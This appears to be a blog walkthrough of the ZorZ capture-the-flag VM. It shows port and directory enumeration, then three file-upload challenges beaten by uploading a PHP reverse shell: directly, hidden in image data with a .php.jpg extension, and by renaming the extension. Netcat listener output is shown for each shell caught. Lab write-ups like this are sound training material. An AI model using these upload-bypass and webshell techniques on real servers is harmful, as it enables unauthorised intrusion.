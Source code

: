 ```yaml
---
layout: blog_item
title: "Zorz Walkthrough"
date: "2024-02-01"
author: Dhruv Ambaliya
description: 'Zorz - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

Welcome to the ZorZ VM Challenge

This machine will probably test your web app skills once again. There are 3 different pages that should be focused on (you will see!) If you solve one or all three pages, please send me an email and quick write up on how you solved each challenge. Your goal is to successfully upload a webshell or malicious file to the server. If you can execute system commands on this box, thats good enough!!! I hope you have fun!

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.110

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/zorz/dirbuster.png)

## Level 1

The web application has no filter protection, so uploading a PHP shell is possible.

![uploader1](/img/blog/zorz/uploader1.png)

PHP Shell Upload:

![php shell upload](/img/blog/zorz/file-upload.png)

The location <code>/uploads2</code> was previously disclosed by **Dirbuster**, <code>/uploads1</code> was discovered manually (logical guess).

![php shell execution](/img/blog/zorz/uploads1.png)

Reverse shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443                               
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33115
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 16:21:31 up 1 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$

{% endhighlight %}

Level 1 complete.

## Level 2

The initial attempt to upload the previous shell failed with the error message:

![php shell upload fail](/img/blog/zorz/upload2-fail.png)

Several attempts were then made to upload shells with various extensions such as <code>shell.png.php</code> , <code>shell.php.png</code> etc to bypass the web application filtering, all attempts to bypassed the filtering failed.

### Burp Suite - PHP Shell Injection in an Image file

It was apparent the web application had a mechanism for image file validation, several attempts were made to inject the php shell code into the image file. The solution was to inject the code at the end of the image data.

The file extension also needed modifying to <code>.php.jpg</code>, this appeared to force the web server to process the file, likely due to poorly configured Apache MIME types.

![Burp Suite shell injection in an image](/img/blog/zorz/burp-php-shell-injection-in-an-image.png)

Image uploaded successfully.

![Shell Upload](/img/blog/zorz/uploaded-shell.png)

Execution of image from <code>/uploads2</code>

![upload dir](/img/blog/zorz/dir.png)

### Reverse Shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33118
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 17:02:32 up 42 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}

Level 2 complete.

## Level 3

Level 3 was beaten simply by renaming the php reverse shell to <code>php-reverse-shell.php.png</code>, this was enough to bypass the filtering.

![Level 3](/img/blog/zorz/level3.png)

An alternative solution would of been to use burp to upload the file + change the content type.

## Flag

{% highlight bash %}

$ cd l337saucel337
$ ls
SECRETFILE
$ cat SE
cat: SE: No such file or directory
$ cat SECRETFILE
Great job so far. This box has 3 uploaders.

The first 2 are pure php, the last one is php w/jquery.

To get credit for this challenge, please submit a write-up or instructions
on how you compromised the uploader or uploaders. If you solve 1, 2, or all
of the uploader challenges, feel free to shoot me an email and let me know!

Thanks for playing!
http://www.top-hat-sec.com
$

{% endhighlight %}

Level 3 complete.

Thanks for the VM :)
